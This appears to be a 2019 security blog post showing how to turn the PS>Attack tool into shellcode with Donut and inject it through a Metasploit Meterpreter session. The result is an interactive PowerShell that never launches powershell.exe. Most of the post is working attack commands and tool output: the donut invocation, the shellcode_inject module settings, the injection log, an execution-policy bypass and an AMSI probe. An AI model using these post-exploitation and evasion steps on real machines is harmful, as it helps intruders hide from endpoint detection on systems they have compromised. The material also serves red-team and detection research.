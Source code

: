 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter Edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[![asciicast](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr.svg)](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- [https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/](https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/)
- [https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/](https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/)
- [https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/](https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/)
- [https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/](https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/)
- [https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html)

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : .NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀

![demo](../assets/images/shellcode_psattack.jpg "Demo")

[back](../)
